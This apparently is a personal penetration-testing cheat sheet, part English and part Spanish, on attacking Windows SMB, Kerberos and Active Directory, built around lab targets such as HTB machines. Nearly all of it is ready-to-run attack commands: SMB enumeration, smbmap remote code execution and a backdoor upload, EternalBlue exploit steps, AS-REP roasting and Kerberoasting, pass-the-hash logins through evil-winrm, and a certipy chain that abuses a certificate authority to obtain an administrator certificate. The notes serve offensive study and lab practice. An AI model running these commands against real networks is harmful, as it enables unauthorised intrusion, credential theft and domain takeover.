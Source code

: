 ```yaml
---
title: 'SMB (Server Message Block)'
description: ''
pubDate: 'Jul 03 2022'
tag: ['windows', 'smb']
slug: vuln/smb
---
```


## Information

- It's a network file sharing protocol that is used to facilitate the sharing of files and peripherals between computers on a local network (LAN).

- Uses port 445(TCP). SMB ran on top of NetBIOS using port 139.

- Samba is an open source Linux implementation of SMB, and alllows Windows systems to access Linux shres and devices

## Exploit

knowing creds.

```bash
psexec.py Administrator@target cmd.exe
```

### Windows Discover and mount

How to mount in powershell:

```bash
# Clear the stored session
net use * /delete

# Mount the target folder
net use Z: \\10.4.17.133\C$ smbserver_771 /user:administrator
```

### SMB Windows Recon: Nmap scripts

```bash
$nmap target
135/tcp   open    msrpc
139/tcp   open    netbios-ssn
445/tcp   open    microsoft-ds

# list the supported protocols and dialects of an SMB server
$nmap -p445 --script smb-protocols target
...

# information about the SMB security level.
$nmap -p445 --script smb-security-mode target
...(but defult usually makes good )
... acc

# with creds discover sensitive information
$nmap -p445 --script smb-enum-sessions target
...

# In case guest login is not enabled we can always use valid credentials of the target machine to discover the same information

$nmap -p445 --script smb-enum-sessions --script-args
...smbusername=administrator,smbpassword=smbserver_771 target

$nmap -p445 --script smb-enum-sessions target --script-args smbusername=administrator,smbpassword=smbserver_771 target
...

$nmap -p445 --script smb-enum-shares target
...

$nmap -p445 --script smb-enum-shares target --script-args
...smbusername=administrator,smbpassword=smbserver_771 target
```

### smbmap Recon

```bash
# NULL SESSION - user, pass, directory, host
smbmap -u guest -p "" -d . -H target

# Remote code execution :D!
smbmap -u administrato -p "" -d . -H target -x 'ipconfig'

smbmap -u administrato -p "" -d . -H target -x 'ipconfig' -L

# connect to C drive
smbmap -u administrato -p "" -d . -H target -x 'ipconfig' -r 'C$'

# upload file
smbmap -u Administrator -p "smbserver_771" -H target -d --upload '/root/payload' 'C$\backdoor'

# download file
smbmap -u Administrator -p "smbserver_771" -H target --download 'C$\flag.txt'

```

### SMBClient - ftp-like client to access SMB/CIFS resources on servers.

Windows 7 y smb puede ser un Eternalblue.

-> AutoBlue-Ms17-010

1: eternal_checker.py target
2: python2.7 zzz_exploit.py target

```bash
$nmblookup -A taget

$rpcclient -U "" -N target

# If we see IPC$ maybe null session works
$smbclient -L target -N

# rid -> 0x200
rpcclient -U "leo&micontraseña" 10.10.11.233 -c "querygroup 0x200"
######################################
# Despues de montar podemos ver en ls -lsa /media/k_share
sudo mount.cifs //target/c /media/k_share user=,pass=

#if discover pass
smbmap -H target -u admin -p password1

# pivot
$smbclient -L target -U jane
or
$smbclient //target/jane -U jane

#other way to find users:
$enum4linux -r -u "admin" -p "password1" target

# users get by enum4linux

GetNPUsers.py user.local/ -dc-ip 10.10.10.161 -request
```

### Kerberos

```bash
# Ningunoi de estos kerberos sirce para cepas de hash
# AS-REP Roasting attack, el usuario que muestre tiene configurado UF_DONT_REQUIRE_PREAUTH
GetNPUsers.py domaindomain_name.local/ -no-pass -usersfile culos_validos.txt

# intentamos crackear el hash con jhon, si conseguimos el pass toca
# kerberoasting attack, SI TENEMOS CREDENCIALES VALIDAS
## request para coger el hash
GetUserSPN.py target.htb/leonardo # muestra si es kerberoasteable
GetUserSPN.py 'domain_name.local/username:password' -request

# no aplica psexec.py si cmp no pwnea el usuario, si no muetra nada smbmap

#desplegar un smbrelay y tratando de interceptar autenticacion a nivel red si el smb no esta firmado se puede tratar de coger la autenticacion de un usuario privs, es un hash a nivel de red no permite hacer cepas de hash o retocar el responder.conf indicadno las target.
# apt install bloodhound neo4j
neo4j console
# bloodhound para enumerar, detectar vias para escalar privs
bloodhound-python.py -c all -u 'culo' -p 'culo' -ns 10.10.10.10 -d domainname.local
bloodhound.py # De github
# pass de hash
cmp winrm doman -u 'culo' -H 'HASH'
# este usuario pertenece al grupo remote management users
evil-winrm -i domain -u 'culo'

```

### Rid brute force

```bash
crackmapexec smb target_ip -u anonymous -p '' --rid-brute 10000
```

### Active Directory (AD)

```bash
certipy ca -ca 'manager-DC01-CA' -add-officer raven -username raven@manager.htb -password 'culo_torcido' -dc-ip target_ip

certipy ca -ca 'manager-DC01-CA' -username raven@manager.htb -password 'culo_torcido' -dc-ip target_ip -enable-template 'SubCA'

certipy req -username raven@manager.htb -password 'culo_torcido' -ca 'manager-DC01-CA' -target manager.htb -template SubCA -upn administrator@manager.htb

certipy ca -ca 'manager-DC01-CA' -issue-request 20 -username raven@manager.htb -password 'culo_torcido'

certipy req -username raven@manager.htb -password 'culo_torcido' -ca 'manager-DC01-CA' -target target_ip -retrieve 20


certipy auth -pfx 'administrator.pfx' -username 'administrator' -domain 'manager.htb' -dc-ip target_ip

# sntp -sS manager.htb
# ntpdate target_ip
# rdate -n target_ip
# nos metemos con psexec y el hash repotado

```
